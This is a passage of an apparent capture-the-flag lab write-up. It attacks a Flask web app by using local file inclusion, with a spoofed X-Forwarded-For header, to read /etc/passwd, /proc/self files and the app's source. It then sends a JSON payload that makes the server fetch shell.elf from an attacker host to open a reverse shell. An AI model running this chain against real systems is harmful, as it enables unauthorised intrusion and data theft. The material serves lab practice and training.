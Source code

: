 Now let's add the file path and try to gain a valid username.

```http
GET /logs?file=/etc/passwd HTTP/1.1

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

X-Forwarded-For: 127.0.0.1

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1
```

![image](https://github.com/1Gould/Proving-Grounds/assets/7574362/08e65256-60fe-4ffc-b6af-b51d10961531)

`clumsyadmin`

Now let's relaunch our payload with the username and try to get a reverse shell.

```json
{"user":"clumsyadmin", "url":"http://192.168.45.215:8000/shells/shell.elf"}
```

From the output of the python server we can see that the application is retrieving the payload but we aren't getting a reverse shell back.

Let's retrieve the location of the server files from the LFI and diagnose our error.

- /proc/self/cmdline
- /proc/self/environ

```shell
/usr/bin/python3/usr/local/gunicorn-w4-b0.0.0.0:1337main:app
```

![image](https://github.com/1Gould/Proving-Grounds/assets/7574362/874c8f2e-93b7-40e6-a1ea-e31cee1ab3d9)


- `/home/clumsyadmin/webapp`

```shell
curl -H "X-Forwarded-For: 127.0.0.1" http://192.168.245.134:13337/logs?file=/home/clumsyadmin/webapp/main.py -o main.py
```

```python
#!/usr/bin/env python3
from flask import Flask, jsonify, request, render_template, Response
from Crypto.Hash import MD5
import json, os, binascii
app = Flask(__name__)

@app.route(&#39;/&#39;)
def home():
    return(render_template(&#34;home.html&#34;))

@app.route(&#39;/update&#39;, methods = [&#34;POST&#34;])
def update():
    if request.headers[&#39;Content-Type&#39;] != &#34;application/json&#34;:
        return(&#34;Invalid content type.&#34;)
    else:
        data = json.loads(request.data)
        if data[&#39;user&#39;] != &#34;clumsyadmin&#34;:
```